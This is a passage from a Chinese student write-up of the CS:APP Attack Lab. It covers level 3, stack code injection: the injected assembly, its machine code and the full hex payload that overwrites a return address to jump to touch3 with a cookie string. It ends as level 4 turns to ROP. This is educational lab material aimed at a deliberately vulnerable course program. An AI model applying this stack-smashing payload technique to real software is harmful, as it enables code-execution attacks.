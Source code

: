 和第二关类似，我们需要传入`cookie`字符串并跳转到`touch3`。但需要注意`hexmatch`函数被调用后，会覆盖一部分`getbuf`的缓冲区。为了避免这一点，可以将`cookie`字符串放到`test`的栈帧里。这一关的思路如下：

* 将返回地址改写为注入代码所在的地址。栈的地址可以用`gdb`跑一把程序确认

* 将`cookie`字符串放到`test`的栈帧里。在注入代码中，将`cookie`串的首地址传递到`%rdi`。
* 确定`touch3`的起始地址并跳转。可利用`push`和`ret`指令实现跳转

与第二关类似，编写如下注入代码，保存到文件`inject3.s`

```assembly
mov   $0x5561dca8,%rdi		# 将cookie字符串放到test栈帧中，这里放到返回地址(0x5561dca0)+0x8处
pushq $0x4018fa				# 将touch3起始地址压栈
retq						# 将touch3地址退栈，并跳转执行touch3
```

执行`gcc -c inject3.s`, `objdump -d inject3.o`， 将汇编文件转为二进制， 得到如下机器码：

```assembly
0000000000000000 <.text>:
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq
```

我第一次写这块汇编代码时，犯了两个错误：

* 将`$0x5561dca8`错写成`$0x5561dca4`, 导致段错误。**注意64位机器上执行压栈和退栈操作，栈指针`%rsp`应该减去或加上`8`，而不是`4`**

* `pushq  $0x4018fa`中漏写了`$`符号，导致压栈的数据不对。**注意对立即数操作时必须加上$符号**

用`man ascii`查表 ，将字符串`59b997fa`转成ASCII码：`35 39 62 39 39 37 66 61`

综上，得到我们需要输入字符串

```txt
48 c7 c7 a8 dc 61 55 68				# 攻击代码位于地址0x5561dc78
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00				# 改写返回地址为0x5561dc78
35 39 62 39 39 37 66 61				# cookie字符串
00 00 00 00 00 00 00 00
```

此时的栈组织如下：

![AttackLab 图3 栈组织结构](C:\Users\pc\Desktop\图片\AttackLab 图3 栈组织结构.PNG)

### 第四关

在前三关，我们插入攻击代码，同时插入指向攻击代码的指针，而产生这个指针需要跑下代码确认栈的地址。但是在第四、五关的`rtarget`程序中，采用了如下策略防止代码注入攻击：

* **栈随机化**，每次运行相同的程序，它们的栈地址是不同的。
* **限制可执行代码区域**，栈是不可执行的。

既然注入代码不可行，能不能利用已有的可执行代码来实现目的呢？以下介绍一种叫`ROP`的攻击方式

#### ROP
